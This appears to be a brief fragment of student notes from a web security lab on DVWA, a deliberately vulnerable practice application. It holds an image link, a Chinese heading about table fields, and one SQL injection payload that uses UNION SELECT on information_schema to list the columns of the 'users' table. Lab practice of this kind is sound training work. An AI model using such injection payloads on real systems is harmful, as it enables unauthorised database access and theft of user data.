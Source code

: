 ![image-20250625143628349](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625143628349.png)



表中的字段

```
1' or 1 = 1 union select 'info',column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'dvwa' AND table_name = 'users'#
```
